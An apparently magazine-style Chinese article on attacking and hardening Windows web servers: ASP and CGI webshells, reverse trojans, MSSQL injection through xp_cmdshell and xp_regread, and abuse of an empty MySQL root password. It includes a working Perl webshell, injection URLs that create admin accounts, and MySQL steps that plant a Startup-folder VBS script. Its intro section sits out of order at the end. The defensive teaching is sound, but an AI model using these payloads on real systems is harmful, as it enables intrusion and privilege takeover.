

我们可以在那个空白的表单里输入所有的 CMD 命令，如 `dir c:\` 等命令。如果你想在这台服务器里建立一个超级用户，可以输入两行命令，第一行输入 `net user netpk hacker /add`，然后点击执行 CMD 命令按钮，就建立了一个普通用户 netpk；再输入第二行命令 `net localgroup administrators netpk /add`，这样就把刚才建立的普通用户 netpk 加入了超级用户管理级 administrators 组了。通过这些，我们可以确定这个 Webshell 有执行所有的 CMD 命令权限。

下面附上这个 cmd.asp 脚本的源代码（详见光盘“源代码”栏目，按文章名查找即可）。你只要把上面的代码写在记事本里，保存扩展名为 ASP，再传到你的虚拟主机空间就可以运行了。

这种绑定 CMD 命令的脚本攻击防范方法有好几种。其实你如果要防范这种攻击，你只要把 ASP 中的 FSO（Scripting.FileSystemObject）功能删除就行了，删除 FSO 权限方法就是在 CMD 的命令提示符下输入以下命令：

```
Regsvr32 /u c:\winnt\system32\scrrun.dll
```

> 刘流：在实际操作的时候，命令改成你的本地系统安装目录的实际路径。但是使用这种方法删除，或者绝对一点说，如果以后我们想使用 FSO 权限，那就用不成了。所以，建议不要使用这种方法删除 FSO 权限。

但，显而易见，如果这样做，那么包括站点系统管理员在内的任何人都将不可以使用 FileSystemObject 对象了。这其实并不是站点管理员想要得到的结果。毕竟我们使用这个对象可以实现方便地在线站点管理，如果连系统管理员都没法使用了，那可就得不偿失了。但是不禁止这个危险的对象又会给自己的站点带来安全漏洞。有没有两全其美的方法呢？有！具体方法如下。我们可以做到禁止其他人非法使用 FileSystemObject。对象，但是我们自己仍然可以使用这个对象，方法如下：查找注册表中键值：`HKEY_CLASSES_ROOT\Scripting.FileSystemObject`，更改成为：`HKEY_CLASSES_ROOT\Scripting.FileSystemObject2`。这样，在 ASP 就必须这样引用这个对象了：`Set fso = CreateObject("Scripting.FileSystemObject2")`，而不能使用 `Set fso = CreateObject("Scripting.FileSystemObject")`，如果你使用通常的方法来调用 FileSystemObject 对象就会无法使用了。

呵呵，只要你不告诉别人这个更改过的对象名称，其他人是无法使用 FileSystemObject 对象的，这样，作为站点管理员我们就杜绝了他人非法使用 FileSystemObject 对象，而我们自己仍然可以使用这个对象来方便地实现网站在线管理等功能了！

但这样做还是有一定的危害性的，因为这样配置的方法并不是十分完善，只是简单地解决了 FSO 调用 CMD 命令和一些简单的 ASP 木马脚本。要知道 Webshell 并不只有 ASP 的一种，如 CGI、PHP、JSP 等都存在这样的 Webshell，如果你的服务器同时配置了支持 CGI、PHP、JSP 等，那可就惨了。因为如 CGI 等这些 Webshell 是不需要 FSO 支持就能实现 Webshell 的，所以你还得向下看，以下还有一些值得大家注意的 Webshell。

其实还有更简单实用的方法能防范这种使用 ASP 脚本绑定 CMD 命令的 Webshell，配置防范方法只需要 30 秒就行了。防范方法等介绍完了 CGI、PHP、JSP 等 Webshell 再说，因为只要一种防范方法，就能防止这些脚本攻击及溢出攻击等，在最后我们介绍的防范方法对我们提及到的所有能够绑定 CMD 的 Webshell 都是能够有效防范的。

## 例二，使用 FSO 权限对文件管理的 Webshell 攻击与防范方法

以下我们介绍的是海阳顶端 ASP 木马，这种 Webshell 能通过网页在线更改、编辑、删除、移动、上传、下载服务器上的任意文件，只要黑客给你的服务器传上这个 ASP 木马，你的服务器上的所有文件就会控制在黑客的手上。黑客能在你的服务器干什么？就是上面提及到的更改、删除、移动……如图 2 所示。



图 2

看到这个图，你也能想象到你的服务器到最后会变得怎么样了，你服务器上的资料将没有隐私可言了，想黑你服务器上的主页或是删除你服务器上的文件都是点几下鼠标就能办到的了。这种 ASP 网络上各黑客网站均有下载，源代码在此就不写出来了。防范方法：和例一的一样，这里不再赘述。

## 例三，免 FSO 对象就能使用的 ASP 木马

对于这种免 FSO 对象就能使用的 ASP 木马，由于少了 FSO 对象的支持，功能上当然不会很强大了，只有浏览服务器上的文件目录、复制、移动文件、执行指定路径的程序文件等功能。值得注意的是，现在的虚拟主机提供商的虚拟主机大多数都还存在这个漏洞……



图 3

你可以通过这个免 FSO 支持的 ASP 木马对服务器上的文件进行任意的复制及移动和执行程序，这个木马程序的功能虽然简单，但用它来黑一个网站已经足够了……以下我给出这个免 FSO 对象的 ASP 源代码，代码如下；详细代码请查看光盘“源代码”栏目。

你只要把上面的代码写在记事本里，保存扩展名为 `.asp`，再传到你的虚拟主机空间就可以运行了。防范免 FSO 支持的 ASP 木马方法如下。通过上面的代码，我们可以看出这段代码的 SHELL 是通过 `shell.application` 建立 shell 对象的，我们只要在注册表里查找键值 `shell.application` 和 `wscript.shell`，然后把这些键值删除，就能防止这一类的 ASP 木马攻击了。

## 使虚拟主机免受 FSO 威胁

现在绝大多数的虚拟主机都禁用了 ASP 的标准组件：FileSystemObject，因为这个组件为 ASP 提供了强大的文件系统访问能力，可以对服务器硬盘上的任何文件进行读、写、复制、删除、改名等操作……但是禁止此组件后，引起的后果就是所有利用这一组件的程序都会受影响。使用这个组件的 ASP 将无法运行，无法满足客户的需求。

如何既允许 FileSystemObject 组件，又不影响服务器的安全性（即：不同虚拟主机用户之间不能使用该组件读写别人的文件）呢？这里介绍本人在实验中获得的一种方法，下文以 Windows 2000 Server 为例来说明。

在服务器上打开资源管理器，用鼠标右键点击各个硬盘分区或卷的盘符，在弹出菜单中选择“属性”，选择“安全”选项卡，此时就可以看到有哪些账号可以访问这个分区（卷）及访问权限。默认安装后，出现的是“Everyone”具有完全控制的权限……

下面要做的就是给每个虚拟主机用户设置一个单独的用户账号，然后再给每个账号分配一个允许其完全控制的目录。

打开“计算机管理”→“本地用户和组”→“用户”，在右栏中点击鼠标右键，选择“新用户”，在“新用户”对话框中输入“用户名”“密码”等信息。本例为第一虚拟主机建立匿名访问账号“IUSR_VHOST1”……



现在新建立的用户已经出现在账号列表中了，在列表中双击该账号，以便进一步设置。在弹出的“IUSR_VHOST1”属性对话框中点击“隶属于”选项卡，删除默认 Users 组并添加 Guest 组权限……

再打开“Internet 信息服务”，找到 Web 页面地址，并将硬盘上这个目录的权限设置成只有 iisuser 和 administrator 能访问……

在“选择用户”对话框中找到前面创建的新账号“IUSR_VHOST1”，双击（图 5）。



此时匿名用户名就改过来了，在密码框中输入前面创建时为该账号设置的密码，OK，完成了！

经此设置后，“第一虚拟主机”的用户，使用 ASP 的 FileSystemObject 组件也只能访问自己的目录。当试图访问其他内容时，会出现“没有权限”“硬盘未准备好”“500 服务器内部错误”等提示。

> 刘流：如果该用户需要读取硬盘的分区、卷等及更深的级别目录，那这样设置将使其无法读取。如果要允许其读取这些和整个分区有关的内容，请右键点击该虚拟站的分区（卷），选择“属性”→“安全”，将这个用户的账号添加到列表中，并至少给予“读取”权限。由于卷下的子目录都已经设置为“禁止将来自父系的可继承权限传播给该对象”，所以不会影响下面的子目录的权限设置。

## 基于 CGI、PHP、JSP 的 Webshell 及溢出攻击与防范

CGI、PHP、JSP 脚本也能绑定 CMD 命令，但其 Webshell 功能权限与防范方法是不是都一样的呢？答案是它们的 Webshell 权限基本相同，大同小异；但防范的思路并不完全相同……就算关闭了 FSO 对象并删除 shell.application 和 wscript.shell 键值，也不能防范这些脚本类 Webshell。

由于 ASP、CGI、PHP、JSP 通过脚本绑定 CMD 命令的方法大同小异，都能用一种很简单的方法完成防范。在此例中，会介绍一种快速完成安全配置的方法，让脚本程序无法通过远程调用你的 CMD 命令，以达到防范脚本绑定 CMD 的目的。

## 举例：CGI 的 Webshell 攻击与防范

只要黑客把一个 CMD.CGI 的 Webshell 传到你的服务器，那么黑客就能在你的服务器里调用 CMD 命令，并能运行你服务器里的所有 CMD 命令，如建立超级用户等，下图是使用这个 CMD.CGI 的 Webshell 运行 `DIR C:\` 命令。如果黑客在你的服务器上传了这个东西，呵呵，你可是欲哭无泪了。

下面给出这个 CMD.CGI 的代码（网络上也有很多黑客站提供下载的）：

```perl
use CGI qw(:standard);
print header(-charset=>gb2312);
$cmd=param('cmd');
$out=`$cmd 2>&1`;
print start_form,textfield('cmd',$cmd,60);
print end_form;
print pre($out);
```

上面就是这个 Webshell 的代码，还有一些 PHP 和 JSP 等的 Webshell，这里就不再作介绍了，因为攻击与防范的方法大同小异。通过上面这些例子，我们看出这几个 Webshell 都是调用了 NT 系统下的 cmd.exe 命令来执行命令的，只要我们对 NT 系统下的 cmd.exe 文件设置一定的权限，那么黑客的这些 Webshell 都将没用武之地了。

为了安全起见，我们还要对如 net.exe、cacls.exe、telnet.exe、tftp.exe、format.com、mountvol.exe、mshta.exe 等危险的命令做出权限设置。因为这些危险的文件默认情况下都是允许来宾以上权限的用户访问及执行的，只有为这些文件设置了权限，这样才能确保真正的安全。这些危险的文件默认情况下都是存放在 `C:\WINNT\SYSTEM32` 的目录下的。

设置权限的方法如图 5 所示，清除原来的所有其他用户访问这些命令的权限，然后只设置允许你正在使用的超级用户拥有使用这些命令的权限。比如说你正在使用的超级用户名是 administrator，那么，你就在权限设置里只允许用户名为 administrator 的用户使用这些命令。

通过上面这些简单的设置，就能让那些绑定你服务器里的 CMD 命令的 Webshell 全部失效。并且还能防止你的服务器在遭到黑客的溢出攻击成功后绑定 CMD 命令登录你的服务器。道理很简单，比如目前流行的 WEBDAV 溢出，这些溢出攻击就是黑客通过溢出你的服务器后绑定你服务器里的 CMD 命令，然后 TELNET 登录你的服务器，取得你服务器上的系统管理权限。

但一般黑客溢出成功后，都是只能拥有 SYSTEM 权限绑定你服务器的 CMD 命令的，而你已经把 CMD 命令设置了禁止 SYSTEM 权限访问，只能使用你设置的唯一一个你正在使用的超级用户名去访问 CMD 命令，所以就算黑客成功溢出后，都不能绑定你的 CMD 命令，那么黑客就登录不了你的服务器，你的服务器就是安全的了。

但这只能是相对的安全，因为有些溢出攻击黑客能直接把反向连接的木马文件传到你的服务器上，并能运行哦。比如最近出现的 Serv-U 溢出，如果你的 FTP 服务器使用了 Serv-U 的话，你又没有打上最新的安全补丁，让黑客溢出成功了，那么黑客可以不绑定你的 CMD 命令登录你的服务器，而是给你服务器传一个反向连接的木马后门。

这种反向连接的后门是通过你的服务器向黑客的机器连接，而黑客只要在自己的机器监听。只要你的服务器中了这种后门，那么就算你的服务器安装了防火墙，并屏蔽了所有不使用的端口，黑客不能正向与你的服务器连接木马后门，但黑客给你传一个反向连接的木马，这个木马是通过你的服务器连接黑客机器的，只要你的服务器向黑客机器发出连接请求，黑客就能取得你服务器的控制权，而且这种反向木马攻击可以完全不依赖于 NT 系统下的 CMD。

那么，我们如何防止这一类的反向木马攻击呢？方法很简单，那就是安装一个具有防止反向连接木马功能的防火墙，如天网及 BlackICE 防火墙等。因为这些防火墙都有应用程序访问网络权限设置功能，服务器上的任何一个程序要访问网络，都会弹出一个警告窗口，必须要服务器管理员同意允许该应用程序访问网络后，这些程序才能访问网络。

这项功能正好用于防范反向木马。下面举一个例子：如你的服务器安装了天网防火墙，如果黑客成功溢出了你的 Serv-U 服务器，并给你传了一个反向连接的后门木马，这个后门木马在你的服务器的 `C:\MM.EXE`，黑客所在 IP 地址是 `192.168.0.18`，现在黑客要对你服务器的这个反向连接木马进行连接，只要黑客在你服务器上运行了这个反向木马，那么你的天网防火墙就会弹出一个警告窗口，如图 6 所示。



图 6

我们可以通过这个警告窗口看到黑客的真正 IP 地址及黑客使用这个反向木马连接的端口、所使用的协议，还有这个反向连接木马在你服务器的所在位置信息。只要你点击禁止按钮，这个程序将不能连接黑客的机器。我相信你不会那么笨，点击允许这个后门连接黑客的机器吧，在你没有点击允许的情况下，这个后门是不会连接黑客机器成功的。

通过这个例子，我们可以看出，只要我们给一些危险的命令如 CMD 等设置了权限，再安装一个可以防止反向连接木马的防火墙，那么那些所谓的溢出攻击将不能对你的服务器造成危害了。

## MSSQL 注入攻击的防御

MSSQL 注入攻击是比较直接和危害比较大的一种攻击方式，那些所谓的黑客们能够利用它直接取得系统权限，今天我们就来看看如何通过系统设置防止这种攻击。

首先要声明的是，并不是通过这个设置就能保证你的服务器安全，安全是一个整体，然而整体又正是由这些部分构成的！

#### 对策一

伪黑客：假设这个地方可以注入

```
http://localhost/bbs/news.asp?id=5
我们再来取下面这种方法来攻击
http://localhost/bbs/news.asp?id=5;exec master.dbo xp_cmdshell 'net user alpha /add'
http://localhost/bbs/news.asp?id=5;exec master.dbo xp_cmdshell 'net localgroup administrators alpha /add'
```

好了，alpha 已经是系统管理员了！  
管理者：如何防止呢？  
看看他们是怎么实现的，通过调用 SQL 里 master 的扩展存储过程里的 xp_cmdshell（如图 7），来执行系统指令！



图 7

我们只要点右键删除这个扩展存储，上面的攻击方法便不起作用了！当然你也可以用下面这句：  
`sp_dropextendedproc 'xp_cmdshell'`，来删除 xp_cmdshell。

#### 对策二

伪黑客：如果 MSSQL 数据库里 xp_cmdshell 扩展被删掉了，不用怕，我们还有方法的哟！

```
http://localhost/bbs/news.asp?id=5;exec master.dbo sp_addextendedproc 'xp_cmdshell',@dllname='xplog70.dll'
```

通过这样一条我们就又把 xp_cmdshell 给恢复了！  
管理者：看来我们的设置还不够彻底，好，在 C 盘里直接搜索 xplog70.dll，找到了，删了它，好了，这个世界清静了，至少那帮人不会直接执行系统指令了！！

#### 对策三

伪黑客：你以为这样就可以了吗？你错了，呵呵，我方法还有很多！只要你用的是 sa 账户，我就还有方法：

```
http://localhost/bbs/news.asp?id=5;exec xp_regread
'HKEY_LOCAL_MACHINE\SECURITY\SAM\Domains\Account\F'
```

看看，说不定我们就能得到管理员的密码哟！改个启动项什么的自然不在话下！

管理者：看来我得下狠的了，看我这样，我把这些扩展都删除了：

```
Xp_regaddmultistring (向注册表中增加项目)
Xp_regdeletekey (从注册表中删除一个键)
Xp_regdeletevalue (从注册表中删除一个键值)
Xp_regenumvalues (列举主键下的键值)
Xp_regread (读一个主键下的键值)
Xp_regremovemultistring (从注册表中删除项目)
Xp_regwrite (向注册表中写入数据)
```

看你嚣张，呵呵，想从注册表里面搞，没门！

其实 MSSQL 的注入攻击防御还有很多很多东西！比如导出特殊文件，破解网站密码，太多太多了，今天就简单给大家介绍这些，甚至我要说，即使你按这个设置了，你的系统还是危险的，还是脆弱的！《黑客防线》2003 年 9 期曾经刊登过 MS SQL 安全配置的相关文章！有意者请参阅此文！

## 简单的 MySQL 数据库入侵防御问题

在网络上，很多系统（win2k、linux）都安装了 MySQL 数据库。的确，这个数据库非常受大家欢迎，但这么受欢迎的数据库安装完毕有个漏洞，就是数据库的 ROOT 账号密码为空，现在网络上很多机器都有这类毛病。我曾经扫描了一个 C 类地址，竟发现数据库 Root 密码为空的机器多达 89 台。因为 MySQL 不像 MSSQL 数据库那样可以调用 XP-Shell 命令，所以很多人找到这样的漏洞也不会利用。下面我就介绍一下，如何利用 Win2k 下 Root 密码为空的 MySQL 数据库：

如果你机器上安装了 MySQL，就可用如下命令：  
`MySQL -u root -h 192.168.0.1`  
连接成功后，看看服务器有什么数据库：`MySQL>show databases`。MySQL 默认安装时会有 MySQL、TEST 这两个数据库；`MySQL>use test`，进入 test 后，看看里面有什么数据：`MySQL>show tables`，那里什么也没有，那么我就在里面建立一个新表：`MySQL>create table lonely (abc text)`。这里我创建了一个表名为 lonely、字段为 abc 的表格。

我们再写一个增加 Admin、密码为 123 的用户的命令，如下：

```sql
MySQL>insert into a values ('set wshell=createobject("wscript.shell")')
MySQL>insert into a values ('a=wshell.run("cmd.exe /c net user Admin 123 /add",0)')
MySQL>insert into a values ('b=wshell.run("cmd.exe /c net localgroup Administrators Admin /add",0)')
MySQL>select ...
MySQL>select ... into outfile 'c:\documents and settings\all users\开始菜单\程序\启动\ccsh.vbs'
```

| 难度等级 | 中 |
|---|---|
| 适合读者 | 服务器、网站管理员、入侵爱好者 |
| 前置知识 | Windows 2003系统的基本操作 |

刘流：Windows 2003已经推出很久了，对于该服务器系统的组网技术、安全配置，很多网友都不是很熟悉。也有很多朋友直接用E-mail和电话的方式和编辑部联系我，希望获得这方面的文章和资料。所以我们特约了“服务器焦点”及“中国黑客协会”网站的站长Net、PK给我们撰写此文，以解大家在Windows 2003的网络组建、安全配置技术等方面的疑惑。

本文将会给大家实例介绍Windows Server 2003 Enterprise Edition企业服务器的组网技术、安全配置，以及一些在Windows 2000系统升级为Windows 2003系统后的一些新增功能。大家可以很明显地看到Windows 2003系统已经比Windows 2000系统增加了很多的安全性，所以现在选择Windows 2003系统作为服务器系统，将会是网管管理员的最佳选择。请不要再问如何架设ASPX支持、如何防止脚本木马、如何防止溢出漏洞……文中将有最令你满意的答案！

## 构建Windows 2003堡垒主机

Windows 2003服务器  
网络组建、安全管理全攻略

